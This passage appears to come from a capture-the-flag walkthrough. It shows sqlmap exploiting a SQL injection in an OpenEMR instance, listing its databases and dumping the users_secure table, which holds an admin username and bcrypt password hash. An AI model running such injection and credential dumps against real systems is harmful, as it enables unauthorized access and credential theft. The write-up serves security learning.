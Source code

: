 Save the request from BurpSuite as `add_edit_event_user.xml` and use the file with `sqlmap`:

~~~
kali@kali:/data/Cache/files$ sqlmap -r add_edit_event_user.xml --dbs

[REDACTED]

---
[08:46:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[08:46:21] [INFO] fetching database names
[08:46:21] [INFO] retrieved: 'information_schema'
[08:46:21] [INFO] retrieved: 'openemr'
available databases [2]:                                                                                                                                                                    
[*] information_schema
[*] openemr

[REDACTED]

~~~

Now that we have listed the databases, let's dump the tables in the `openemr` database. There are several users tables, but the one that is interesting is `users_secure`. Let's dump the content of the table:

~~~
kali@kali:/data/Cache/files$ sqlmap -r add_edit_event_user.xml -D openemr -T users_secure --dump

[REDACTED]

Database: openemr
Table: users_secure
[1 entry]
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+

[REDACTED]
                
~~~
